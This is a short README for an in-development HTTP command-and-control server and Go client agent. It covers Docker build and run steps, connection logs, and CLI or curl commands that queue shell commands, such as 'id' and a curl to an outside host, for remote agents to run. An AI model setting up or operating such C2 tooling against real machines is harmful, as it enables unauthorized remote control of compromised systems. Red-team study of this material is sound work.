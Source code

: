 # Basic C2 cradle (http)

**In Development**

## Building server with Docker

```
docker build -t c2server .
```

## Running server with Docker

```
docker run -p 8080:8080 -it c2server
docker run --name c2server -p 8080:8080 -it c2server
[2024-08-30 20:38:40 +0000] [1] [INFO] Starting gunicorn 23.0.0
[2024-08-30 20:38:40 +0000] [1] [INFO] Listening at: http://0.0.0.0:8080 (1)
[2024-08-30 20:38:40 +0000] [1] [INFO] Using worker: sync
[2024-08-30 20:38:40 +0000] [7] [INFO] Booting worker with pid: 7
ZRZ04A 192.168.65.1 has connected with interval 60
```

## Building the client

```
go build client.go
```

## Sending a command to the server (with curl)

```
curl -X POST -d "agentId=<agentId>&command=id" http://127.0.0.1/add-command
```

## Using the cli (ChatGPT generated)

Currently supports list-clients (list connected clients), list-commands (show commands), add-command (Add commmand for client)

```
./cli list-clients
+-----------+--------------+----------+
| CLIENT ID |  IP ADDRESS  | INTERVAL |
+-----------+--------------+----------+
|  ZRZ04A   | 192.168.65.1 |    60    |
|  Y5VVRH   | 192.168.65.2 |    60    |
+-----------+--------------+----------+
```

List all agents connected to the server. 

```
./cli add-command --agent-id Y5VVRH --command "curl sneakerhax.com"
Command added successfully
```

Add command to be executed by an agent

```
./cli.go list-commands                                               
+----------+---------------------+
| AGENT ID |       COMMAND       |
+----------+---------------------+
|  Y5VVRH  | curl sneakerhax.com |
+----------+---------------------+
```

List all commands to be executed by agent